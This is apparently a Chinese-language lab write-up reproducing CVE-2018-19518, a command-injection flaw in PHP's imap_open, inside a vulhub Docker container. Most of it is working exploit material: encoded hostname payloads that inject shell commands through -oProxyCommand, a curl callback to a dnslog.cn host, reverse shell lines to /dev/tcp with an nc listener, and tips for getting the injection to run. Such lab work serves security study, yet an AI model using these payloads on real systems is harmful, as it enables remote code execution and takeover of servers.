




## 构建

``` shell
cd vulhub/php/CVE-2018-19518
docker-compose up -d 
```

## 漏洞原理
https://github.com/vulhub/vulhub/tree/master/php/CVE-2018-19518

php imap扩展用于在PHP中执行邮件收发操作。其imap_open函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

https://www.cnblogs.com/Junglezt/p/18119142

## PoC（Proof of Concept） 验证漏洞存在的代码
版本验证：PHP 8.1.0-dev

## Exp（Exploit）进行实际的攻击利用
提交表单请求中对hostname字段注入RCE
payload ：

```http
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=admin&password=123
```
+ url编码：%09 tab %2b + %3d =
+ 先url解码为ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=
+ 再base64解码：ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=是 echo '1234567890'>/tmp/test0001
+ x为任意

构造payload:原命令->base64->特殊字符url编码



###  进入容器查看是否执行成功
```shell
docker exec -it [容器id] /bin/bash
cd /tmp
```

### 改进：DNSLog 回显判断是否可以执行rce
```shell
curl 8blu94.dnslog.cn
# base64encode
Y3VybCB4NmRyZmwuZG5zbG9nLmNuCg==
# 将base64编码内容替换，将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09Y3VybCB4NmRyZmwuZG5zbG9nLmNuCg%3d%3d|base64%09-d|sh}&username=admin&password=222
```



### 建立反弹shell(监控机为主机，靶机为docker)：
#### 文件式反弹shell：
`docker inspect 容器ID` 获取容器的所有信息，其中就含有**容器的IP**和**默认网关的IP**，一般情况下默认网关的IP就是我们宿主机的IP


写入webshell文件：
```shell
# echo 命令：将字符串 输出 ，'>' 将 echo 命令的输出重定向到文件/tmp/webshell
echo '/bin/bash -i >& /dev/tcp/172.23.0.1/8999 0>&1'>/tmp/webshell
# base64encode
ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg==
# 将base64编码内容替换
x+-oProxyCommand%3decho%09[base64编码内容]|base64%09-d|sh}&username=admin&password=222
x+-oProxyCommand%3decho%09ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg==|base64%09-d|sh}
# 将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg%3d%3d|base64%09-d|sh}
```
首先本地监听`nc -lvp 8999`
再使用/bin/bash触发/tmp/webshell反弹shell脚本
```shell
#payload
/bin/bash /tmp/webshell
#base64
L2Jpbi9iYXNoIC90bXAvd2Vic2hlbGwK
#
hostname=x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvd2Vic2hlbGwK|base64%09-d|sh}&username=admin&password=222
```
成功截图：


#### 命令注入式反弹shell：
```shell
# payload
/bin/bash -i >& /dev/tcp/172.23.0.1/8999 0>&1;curl 8blu94.dnslog.cn
# base64encode
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCg==
# 将base64编码内容替换
x+-oProxyCommand%3decho%09[base64编码内容]|base64%09-d|sh}&username=admin&password=222
x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCg==|base64%09-d|sh}
# 将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCgo%3d|base64%09-d|sh}
```
失败（原因不明）

## 复现总结

###  payload构造 %2b 先url解码为+ 再base64 解码
构造 |base64-d|sh}执行语句 先base64 加密 再url编码，注意换行
[](../assets/img/2024-08-30/iShot_2024-08-30_18.04.37.png)


### payload构造注意
+ x 不能是127.0.0.1，不能是ip，否则会长时间请求ip，并无法执行rce
+ 构造的命令加回车再base64,不加回车不会立马返回response但仍会执行。
+ username=admin,其他不行
+ echo ' ' > a.sh 使用单引号保留特殊字符，双引号内某些字符可能会被解释或替换

### 避免直接命令反弹shell失败
通过写入webshell文件再执行的方式，提高通过RCE直接执行反弹shell命令的成功率。
失败可能原因：命令长度限制、字符转义问题、写入webshell文件后再执行可能会以不同的权限运行，从而成功执行。